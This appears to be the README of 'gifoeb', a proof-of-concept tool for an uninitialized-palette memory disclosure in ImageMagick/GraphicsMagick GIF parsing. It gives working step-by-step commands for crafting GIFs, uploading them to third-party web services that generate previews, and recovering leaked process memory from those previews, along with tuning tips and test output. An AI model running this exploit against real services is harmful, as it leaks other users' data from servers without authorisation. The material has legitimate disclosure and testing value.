 ### Summary

ImageMagick/GraphicsMagick's gif parser before https://github.com/ImageMagick/ImageMagick/commit/9fd10cf630832b36a588c1545d8736539b2f1fb5 leaves the palette uninitialized if neither global nor local palette is present. If IM/GM is used as a library loaded into a process that operates on interesting data, this data sometimes can be leaked via the uninitialized palette.

### How to use

1. Run `./gifoeb gen 512x512 dump.gif`. The script needs ImageMagick (default) or GraphicsMagick (use `--tool GM`) to generate the images.
2. Upload `dump.gif` somewhere. If the following conditions hold true
   1. A preview is generated
   2. It is preferably not a JPEG (see notes)
   3. It changes significantly from one upload to another

   then you're lucky.
3. Download and save the preview as `preview.ext`.
4. ```bash
   r=$(identify -format '%wx%h' preview.ext[0]) &&
   mkdir -p for_upload &&
   for i in `seq 1 10`; do
      ./gifoeb gen $r for_upload/$i.gif;
   done
   ```
5. Upload `for_upload/*.gif` to the webservice and download the previews.
6. ```bash
     for p in previews/*; do
       ./gifoeb recover $p | strings;
     done
   ```
7. Repeat 4-6 until you get something interesting or tired.

### Notes on JPEG previews

Unfortunately, conversion to JPEG corrupts the palette at the very first stage --- RGB->YCbCr conversion. All other stages almost don't cause information loss if the picture consists of 16x16 squares of one color and the JPEG conversion quality >= 75. You can still try `gifoeb recover` on JPEG images, but only ~60% bytes will be recovered accurately and others will be recovered with +-1 error.

You can play with image generation and palette recovery alogirithms (see functions `gen_picture` and `recovery` in `gifoeb`). Test it `./gifoeb recover_test --format jpg`, like this:
```
$ ./gifoeb recover_test --format jpg 300x300
test completed, 768 bytes total, 228 recovered wrong (29.69%)
```

If the resolution of the preview is less than 256x256 then we can't fit all 256 squares and `gifoeb gen` will generate squares of smaller size, so the recover success rate will be even lower. In this case, try to reduce number of colors in the palette (a.k.a number of dumped bytes / 3) using `--colors` switch (supply same value to `gifoeb gen` and `gifoeb recover`!). To find the best value use `recover_test`:

```
$ ./gifoeb recover_test 100x100 --format jpg --colors 145
test completed, 435 bytes total, 307 recovered wrong (70.57%)
$ ./gifoeb recover_test 100x100 --format jpg --colors 144
test completed, 432 bytes total, 134 recovered wrong (31.02%)
```
